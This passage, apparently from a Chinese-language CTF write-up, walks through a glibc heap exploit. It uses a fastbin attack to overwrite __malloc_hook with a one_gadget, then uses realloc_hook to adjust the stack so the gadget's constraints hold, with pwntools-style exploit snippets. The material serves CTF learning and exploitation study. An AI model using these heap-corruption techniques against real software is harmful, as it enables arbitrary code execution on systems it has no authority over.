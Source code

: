 ```
chunk_A = malloc(0x88)
fast = malloc(0x68)
free(fast)

edit(chunk_B2, p64(libc.sym.__malloc_hook - 0x23))
fast = malloc(0x68)

target = malloc(0x68)
edit(target, b'a'*0x13+p64(libc.address+one_gadget))

```

首先把 chunk_A 申请回来

然后申请一个大小为 0x68 的 chunk，这个 chunk 和 B_2 是同一个指针

将其 free 掉加入到 fastbin 中

执行 fastbin attack 将 malloc_hook 修改为 one_gadget

但是执行之后会发现 libc 的几个 one_gadget 都没办法执行

在这里下一个断点调试一下`b *__malloc_hook`

![](https://static.hack1s.fun/images/2021/12/09/image-20211209181740399.png)

三个 one_gadget 需要满足的条件依次为：

*   `rax==NULL`
*   `[rsp+0x30]==NULL`
*   `[rsp+0x50]==NULL`

而运行到这里时，栈的情况为

![](https://static.hack1s.fun/images/2021/12/09/image-20211209181923401.png)

这两个条件都不满足，同时 rax 的值也不是 0

但是可以注意到 0x50 的位置虽然不是 0，但是 0x58 的位置是 0

如果能够想办法让这个 0 在 0x50 处就好了。

这里涉及到一种调整栈的方法，利用 realloc_hook 调整栈

realloc_hook 就在 malloc_hook 的前面，因此利用 fastbin attack 也是可以覆盖这个位置的

realloc 函数开始位置首先有一系列 push，之后执行 realloc_hook

![](https://static.hack1s.fun/images/2021/11/28/image-20211128135341556.png)

将 malloc_hook 填为 realloc 的地址加一个偏移（这样减少 push 的数量达到调整栈的目的）

将 realloc_hook 填为目标的 one_gadget

这样触发时首先执行 malloc_hook 即 realloc 加偏移，之后执行 realloc_hook 即 one_gadget

那么首先我们修改一下 exploit 的最后一行

```
edit(target, b'a'*0xb+p64(libc.address+one_gadget)+p64(libc.sym.realloc+2))

```
